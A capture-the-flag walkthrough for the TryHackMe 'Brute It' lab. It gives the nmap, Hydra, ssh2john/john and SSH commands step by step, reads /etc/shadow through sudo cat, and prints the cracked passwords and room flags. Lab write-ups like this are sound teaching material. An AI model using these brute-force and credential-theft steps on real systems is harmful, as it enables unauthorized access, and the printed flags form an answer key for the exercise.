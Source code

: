 BruteIt TRYHACKME Walkthrough

The Brute It room on TryHackMe is a beginner-level challenge where we practice brute-forcing credentials, cracking password hashes, and escalating privileges to gain full control of a target machine. Join the room here: https://tryhackme.com/room/bruteit

VPN Connection

Download the VPN configuration file from https://tryhackme.com/access
Navigate to the folder where the config file is saved
Connect to the VPN -> sudo openvpn "<name-of-config-file>.ovpn"

Task 1 — About this Box

Deploy the machine by clicking Start Machine in Task 1
Wait for the IP address of the target machine to appear

Task 2 — Reconnaissance

Scan the target machine for open ports and running services -> nmap -sC -sV -Pn -T4 <target_ip>
Open ports -> 22, 80
SSH version -> OpenSSH 7.6p1
Apache version -> 2.4.49
Linux distribution -> Ubuntu

Search for hidden directories on the web server -> /admin found

Task 3 — Getting a Shell

Brute-force admin panel credentials using Hydra -> hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
Admin credentials -> admin:xavier

Log in to the admin panel and download RSA private key -> wget http://<target_ip>/admin/panel/id_rsa

Crack the RSA private key passphrase -> ssh2john id_rsa > bruteit.txt
-> john --wordlist=/usr/share/wordlists/rockyou.txt bruteit.txt
-> chmod 700 id_rsa
RSA key passphrase -> rockinroll

SSH into the machine using the key and passphrase -> ssh -i id_rsa john@<target_ip>
Web flag -> THM{brut3_f0rce_is_e4sy}
User flag -> THM{a_password_is_not_a_barrier}

Task 4 — Privilege Escalation

Check sudo privileges: john can run /bin/cat as root without a password

Read root flag -> sudo /bin/cat /root/root.txt
Root flag -> THM{pr1v1l3g3_3sc4l4t10n}

Crack root password from /etc/shadow -> sudo /bin/cat /etc/shadow
-> john --wordlist=/usr/share/wordlists/rockyou.txt b.txt
Root password -> football

Summary

Gained initial access using brute force and password cracking
Escalated privileges to root using sudo permissions

Captured all flags: web, user, root

Emphasizes the power of password attacks and privilege escalation
